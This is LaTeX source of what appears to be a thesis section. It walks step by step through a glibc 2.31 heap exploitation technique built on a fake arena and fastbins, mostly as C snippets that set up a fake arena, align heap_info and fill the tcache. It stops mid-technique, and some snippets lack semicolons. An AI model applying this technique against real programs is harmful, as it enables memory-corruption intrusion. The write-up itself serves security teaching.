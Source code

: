 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000); 
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF; 
fake_arena[0x88a] = 0xFF; 
\end{lstlisting}

Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}

The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk : 

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like fastbin\_dup all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}	
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}
\end{document}
